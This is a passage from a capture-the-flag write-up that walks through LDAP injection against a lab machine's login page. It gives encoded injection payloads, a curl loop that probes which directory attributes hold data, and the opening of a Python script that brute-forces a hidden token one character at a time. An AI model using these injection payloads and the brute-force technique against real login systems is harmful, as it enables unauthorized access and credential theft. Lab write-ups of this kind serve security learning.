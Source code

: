 The comment on the page said that the token string is stored in an
already existing schema element. I wrote a query that would check that
an attribute had something in it. Then I started with [this
list](http://www.zytrax.com/books/ldap/ape/) and made a list of the ones
that seemed like they could hold an 81 digit numerical value:



    root@kali# cat ldap_elements 
    fascimileTelephonenNumer
    homePhone
    mail
    mobile
    pager
    street
    userPassword



Then I wrote a loop to to check each one in this query:



    *)(${attrib}=*



That would make the query on CTF look something like:



    &(uid=*)(${attrib}=*)



That would return true if the attribute had anything in it:



    root@kali# for attrib in $(cat ldap_elements); do echo -n "${attrib}   "; curl -s http://10.10.10.122/login.php -d "inputUsername=%252a%2529%2528${attrib}%253d%252a&inputOTP=" | grep -A1 '<div>' | grep '</div>'; done
    fascimileTelephonenNumer       User %2a%29%28fascimileTelephonenNumer%3d%2a not found    </div>
    homePhone       User %2a%29%28homePhone%3d%2a not found    </div>
    mail       Cannot login    </div>
    mobile       User %2a%29%28mobile%3d%2a not found    </div>
    pager       Cannot login    </div>                  
    street       User %2a%29%28street%3d%2a not found    </div>
    userPassword       Cannot login    </div>



So now I have three potential attributes that might hold the token
string, `mail`, `pager`, and `userPassword`.

#### Brute the Values

I wrote a python script to brute force the values:



      1 #!/usr/bin/env python3
      2 
      3 import requests
      4 import string
      5 import sys
      6 import time
      7 
      8 def brute_next_char(inputUsernameStr, chars):
      9 
     10     for c in chars:
     11         while True:
     12             try:
     13                 time.sleep(0.3)
     14                 resp = requests.post('http://10.10.10.122/login.php', data={'inputUsername': inputUsernameStr.format(c=c), 'inputOTP': '0000'})